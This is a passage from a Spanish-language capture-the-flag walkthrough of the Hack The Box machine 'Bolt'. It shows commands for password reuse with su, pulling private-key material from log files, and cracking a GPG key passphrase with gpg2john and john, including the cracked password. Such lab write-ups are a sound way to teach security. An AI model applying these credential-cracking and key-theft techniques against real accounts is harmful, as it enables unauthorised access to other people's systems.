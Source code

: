 En la carpeta `home` del sistema vemos que existen dos usuarios `eddie` y `clark`. Probamos por si hay reutilización de contraseñas y logramos conectarnos con el usuario `eddie`. En su direcotorio personal encontramos la flag de usuario

```bash
www-data@bolt:/home$ su eddie
Password: 
eddie@bolt:/home$ whoami
eddie
eddie@bolt:~$ cat user.txt 
05b2e00cf5124bc43***************
```

### Escalada Privilegios

* * *

Ya conectados con el usuario `eddie` volvemos a ejecutar `linpeas.sh` y econtramos unos archivos de registro que contienen claves SSH. 

<img src="/assets/HTB/Bolt/sshkeys.png">

Inspeccionando el archivo `000003.log` logramos extraer una clave privada del usuario `eddie`. La extraemos, formateamos y con la herramienta `gpg2john` logramos extraer el hash, el cual crackearemos mediante la herramienta `john` para extraer la contraseña

```bash
❯ gpg2john key > hashGPG

❯ john -w:/usr/share/wordlists/rockyou.txt hashGPG
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 16777216 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 8 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
merrychristmas   (Eddie Johnson)
1g 0:00:01:42 DONE (2022-12-10 17:18) 0.009762g/s 418.2p/s 418.2c/s 418.2C/s mhines..menudo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Con las credenciales de mysql encontradas anteriormente accedemos a la base de datos, y en la base de datos `passboltdb` y tabla `secrets` localizamos un mensaje GPG cifrado. Nos lo traemos a nuestro equipo de trabajo
